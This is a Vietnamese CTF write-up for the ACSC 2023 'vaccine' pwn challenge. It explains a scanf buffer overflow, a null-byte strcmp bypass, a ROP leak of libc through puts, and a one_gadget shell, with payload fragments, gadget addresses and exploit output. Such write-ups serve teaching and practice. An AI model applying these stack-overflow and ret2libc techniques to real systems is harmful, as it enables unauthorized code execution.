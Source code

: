 > From phis1Ng_ with luv
# ACSC 2023 : vaccine - warmup
**Category:** Pwnable
- Link challenge : [vaccine](https://github.com/w1n-gl0ry/CTF/blob/b65dfe3934341213d459b63d3bd81b0a0453f720/2023/ACSC_2023/vaccine/vaccine)


> nc vaccine.chal.ctf.acsc.asia 1337

Bên lề: Đây là Writeup đầu tay trong năm 2023 của mình, nên là có sai sót gì mong mọi người thông cảm nhé :> 



## Write up

# 1. Tìm lỗi:

Đầu tiên, mình dùng lệnh `file` để xem trong file thực thi có gì:
```
vaccine: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=a158b3c9f204dc1fdf47fefdac488b0da10fc5b0, for GNU/Linux 3.2.0, not stripped
```
Nah, đây à 1 file executable `64 bit` không bị [stripped](https://stackoverflow.com/questions/4698299/set-breakpoint-in-an-stripped-elf-executable)(stripped là gì thì bấm vào để tham khảo thêm nhé), nên ta có thể dễ dàng tìm kiếm các functions trong `IDA` cũng như `gdb`

Như thường lệ của một người chơi Pwn, tải file về và thả vào `IDA` thôi nào !

Nhìn vào hàm main bên dưới:

![vaccine.png](https://github.com/w1n-gl0ry/CTF/blob/449dc437169f924248351d62c2212c896aa0190d/2023/ACSC_2023/vaccine/image/vaccine.png)

Ta thấy, chương trình tạo mảng s2 sau đó bắt ta nhập vào thông qua hàm `scanf()`, nhìn sơ ta dễ thấy hàm `scanf()` không chỉ định độ dài nhập vào nên xuất hiện lỗ hổng `buffer overflow`.

Mình tiến hành kiểm tra các mitigations của file thực thi để xem có khai thác được gì không, dùng lệnh `checksec` để kiểm tra:

```
[*] '/home/w1n_gl0ry/CTF/Pwnable/ACSC2023/vaccine/bin/vaccine'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Hmm, ta thấy chỉ bits `NX` được bật, có nghĩa là chúng ta không thể exploit bằng cách inject shellcode được, nên ta tiếp tục phân tích hàm main,

![vaccine.png](https://github.com/w1n-gl0ry/CTF/blob/fdd8a08e8b941ed321e7e27b6dbedd0bd22b0b75/2023/ACSC_2023/vaccine/image/Screenshot%202023-03-07%20135509.png)

Chương trình kiểm tra toàn bộ biến s2 với các kí tự ASCII `65`, `67`, `71`, `84` tương ứng với các kí tự `A`, `C`, `G`, `T` mà chương trình gọi là `DNA codes`. Nếu khác kí tự nào thì chương trình sẽ thoát ngay lập tức.

Ngược lại, lúc s2 thõa mãn thì chương trình sẽ tiếp tục kiểm tra với mảng s cho trước gồm các kí tự trong file `RNA.txt`. Rõ ràng, ta không thể đoán được nên phải tìm cách bypass đoạn này. Khi tất cả đều thõa mãn thì chúng ta sẽ nhận được reward (maybe là flag :>)

Đến đây, chúng ta chỉ cần bypass các kí tự `DNA codes` và hàm `strcmp(s, s2)`, từ đó ta có thể ghi đè `return addr` bằng payload mà ta mong muốn.

# 2. Ý tưởng:

Làm sao ta có thể bypass được hàm `strcmp()` trong khi ta không biết trong mảng s có gì ?

-> Mấu chốt chính là hàm `scanf()`, dùng lệnh `man 3 scanf` để xem hàm `scanf()` làm gì:
Hàm `scanf()` vẫn sẽ đọc chuỗi cho đến khi gặp kí tự newlines, nhưng kí tự null bytes thì nó vẫn đọc và lúc kết thúc chuỗi hàm sẽ tự động thêm null bytes vào cuối xâu. Ta lợi dụng điều này để ghi đè qua mảng s một kí tự như s2 để bypass được hàm `strcmp()` . Trong khi đó, hàm `strlen()` vẫn thõa mãn. Tuyệt !

Khi ta đã thõa mãn các điều kiện, việc cuối cùng là ghi đè `return addr` về payload mà chúng ta mong muốn.


# 3. Exploit:

[+] Payload 1: Bypass kí tự DNA codes và hàm `strcmp()` :
-> Ta sẽ điền kí tự `A` vào s2 và lấp đầy các kí tự null cho tới mảng s rồi điền kí tiếp tục tự `A`, hàm sẽ tự động null bytes vào cuối xâu nên không cần quan tâm đến mảng s nữa, việc còn lại là lấp đầy `buf` cho tới `ret addr`

Cách 2: Ta sẽ lấp đầy `buf` cho tới `ret addr` bằng các kí tự null -> cũng thõa mãn.

`payload = (b'A' + (offset s2 -> s) * b'\x00' + b'A').ljust(256, b'\x00')`
hoặc
`payload = payload.ljust(256, b'\x00')`

```
[+] Starting local process './vaccine': pid 15939
[*] running in new terminal: ['/usr/bin/gdb', '-q', './vaccine', '15939', '-x', '/tmp/pwn7i3d52cm.gdb']
[+] Waiting for debugger: Done
[*] Switching to interactive mode
Give me vaccine: Congrats! You give the correct vaccine!
Here is your reward: REDACTED
```
Vậy là đã thành công bước đầu, ta tiếp tục tính payload thứ 2,

[+] Payload 2: Tìm các gadgets phù hợp cho việc leak địa chỉ của hàm nào đó trong thư viện, rồi sau đó tính địa chỉ `libc_base`:

Ta dùng lệnh `ROPgadget --binary vaccine | grep "ret" ` :

```
0x0000000000401443 : pop rdi ; ret
0x0000000000401441 : pop rsi ; pop r15 ; ret
0x000000000040101a : ret
```
-> Có thể những gadgets này sẽ giúp ích trong việc exploit của chúng ta.

```
pop_rdi_ret = 0x401443
pop_rsi_ret = 0x401441
ret = 0x40101a
```
Ta lợi dụng hàm puts để in ra địa chỉ hàm `fopen()` trong thư viện, `payload` như sau:

`payload += <pop_rdi_ret> + <địa chỉ hàm fopen_got> + <địa chỉ hàm puts> + <địa chỉ hàm main>`

Ta quay lại hàm main để địa chỉ hàm `fopen()` được in ra.

```
[+] Starting local process './vaccine': pid 16429
[*] running in new terminal: ['/usr/bin/gdb', '-q', './vaccine', '16429', '-x', '/tmp/pwn6jt6gfhv.gdb']
[+] Waiting for debugger: Done
got_leak: 0x7f0377c7f6b0
libc_base:  0x7f0377c00000
[*] Switching to interactive mode
Congrats! You give the correct vaccine!
Here is your reward: REDACTED
```
Thành công lấy leak được địa chỉ và tính được `libc_base`, việc còn lại của ta là thực thi hàm `system('/bin/sh')` !

[+] Payload 3:
Sau khi có địa chỉ hàm `fopen()` ta sẽ tính được địa chỉ `libc_base` , ta tính địa chỉ hàm `system` và chuỗi `/bin/sh` để chiếm được shell.

Tới đây ta dùng one_gadgets để mọi việc dễ dàng hơn (thật ra là mình đã thử cách khác nhưng không thành :>)


# 4. Chiếm cờ:

Đây là toàn bộ file exploit của mình: [asd.py](https://github.com/w1n-gl0ry/CTF/blob/fdd8a08e8b941ed321e7e27b6dbedd0bd22b0b75/2023/ACSC_2023/vaccine/asd.py)

Chúc mọi người 1 tuần tốt lành !!




